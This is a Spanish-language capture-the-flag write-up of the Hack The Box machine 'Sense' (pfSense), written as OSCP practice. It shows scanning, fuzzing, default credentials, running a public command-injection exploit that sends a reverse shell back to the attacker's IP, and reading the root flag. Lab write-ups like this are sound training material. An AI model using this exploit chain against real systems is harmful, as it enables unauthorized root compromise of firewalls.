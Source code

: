 ```yaml
---
layout: post
title:  "OSCP Path ~ Sense de Hack The Box (Necesario VIP)"
categories: "HTB OSCP-PATH"
description: Writeup de la maquina de HackTheBox llamada SENSE siguiendo el PATH para el OSCP
tags: HTB, OSCP Path, Fuzzing, pfSense, Maquinas Retiradas, Writeup, Hacking
---
```


# Sense ~ Hack The Box to OSCP

Realizamos el Primer escaneo con Nmap
```bash
$" nmap -p- --open -sS --min-rate 4000 -vvv -n -Pn -oG allports 10.10.10.60       "
``` 
Procedemos con el siguiente escaneo de Nmap
```bash
PORT    STATE SERVICE    VERSION
80/tcp  open  http       lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Did not follow redirect to https://10.10.10.60/
443/tcp open  ssl/https?
| ssl-cert: Subject: commonName=Common Name (eg, YOUR name)/organizationName=CompanyName/stateOrProvinceName=Somewhere/countryName=US
| Not valid before: 2017-10-14T19:21:35
|_Not valid after:  2023-04-06T19:21:35
|_ssl-date: TLS randomness does not represent time
```
Le tiramos un Whatweb
```bash
http://10.10.10.60 [301 Moved Permanently] Country[RESERVED][ZZ], HTTPServer[lighttpd/1.4.35], IP[10.10.10.60], RedirectLocation[https://10.10.10.60/], lighttpd[1.4.35]                                                                                                                                                            
ERROR Opening: https://10.10.10.60/ - SSL_connect returned=1 errno=0 state=error: dh key too small
```
Inspeccionamos el certificado SSL con openssl
```bash
# openssl s_client -connect 10.10.10.60:443
```
Nos lista el certificado SSL y el protocolo de comunicacion utilizado TLSv1.2

Nos metemos por el http y vemos que estamos ante un pfsense 

Wappalyzer nos dice que esta escrito en “php”

Procedemos a Fuzzear con la herramienta wfuzz:
Escaneo 1:
```bash
fuzzing sin extensiones
000003584:   200        228 L    851 W      7492 Ch     "tree"                                                                                
000008044:   200        173 L    404 W      6113 Ch     "installer"
```
Escaneo 2
```bash
Fuzzing con extensiones php, txt 
=====================================================================
ID           Response   Lines    Word       Chars       Payload                                                                               
=====================================================================

000000095:   200        173 L    425 W      6689 Ch     "help - php"                                                                          
000000003:   200        173 L    425 W      6690 Ch     "index - php"                                                                         
000000315:   200        173 L    425 W      6690 Ch     "stats - php"                                                                         
000001201:   200        173 L    425 W      6689 Ch     "edit - php"                                                                          
000001331:   200        173 L    425 W      6692 Ch     "license - php"                                                                       
000001501:   200        173 L    425 W      6691 Ch     "status - php"                                                                        
000001385:   200        173 L    425 W      6691 Ch     "system - php"                                                                        
000002510:   200        9 L      40 W       271 Ch      "changelog - txt"                                                                     
000002911:   200        173 L    425 W      6689 Ch     "exec - php"                                                                          
000005455:   200        173 L    425 W      6690 Ch     "graph - php"                                                                         
000008957:   200        173 L    425 W      6691 Ch     "wizard - php"                                                                        
000012509:   200        173 L    425 W      6688 Ch     "pkg - php"                                                                           
000034071:   200        16 L     26 W       384 Ch      "xmlrpc - php"                                                                        
000069533:   200        173 L    425 W      6691 Ch     "reboot - php"                                                                        
000093543:   200        173 L    425 W      6695 Ch     "interfaces - php"
"
changelog.txt - Nos Da Info interesante sobre los cambios que han habido y que falta una VULN por parchear
system-users.txt		Obtenemos credenciales de usuario y posible contraseña para el login  "
```
Hechamos un ojo a la ruta encontrada
```bash
https://10.10.10.60/system-users.txt
####Support ticket###
Please create the following user

username: Rohit
password: company defaults
```
Probamos a hacer uso de distintas posisbles password para el usuario `rohit` y damos con la password correcta `pfsense`.
Accedemos al Panel de administrador y buscamos por la `version` de `pfsense` que es `2.1.3`

Procedemos a usar la herramienta `Searchsploit` para buscar por `pfsense 2.1.3`
```bash
# searchsploit -m php/webapps/43560.py 
  Exploit: pfSense < 2.1.4 - 'status_rrd_graph_img.php' Command Injection
      URL: https://www.exploit-db.com/exploits/43560
     Path: /usr/share/exploitdb/exploits/php/webapps/43560.py
File Type: Python script, ASCII text executable, with CRLF line terminators

Copied to: /home/OSCP/Sense/exploits/43560.py
```
Vemos que es un script en python que nos devuelve una `r-shell` si nos ponemos a la escucha con una session con `nc -vlnp $Port`

Probamos el exploit para ver si resulta funcional:
```bash
# python3 43560.py --rhost 10.10.10.60 --lhost 10.10.14.12 --lport 443 --username rohit --password pfsense
CSRF token obtained
Running exploit...
Exploit completed
```
Nos ponemos a la escucha con la session de Netcat
```bash
# nc -nlvp 1233                                                                                                                                  1 ⨯
listening on [any] 1233 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.60] 8378
sh: can't access tty; job control turned off
# whoami
root
```
Nos desplazamos para sacar la flag del usuario root
```bash
# cd root
# cat * 
d08c32a5d4f8c8b10e76exxxxxxxxxxxxx
```


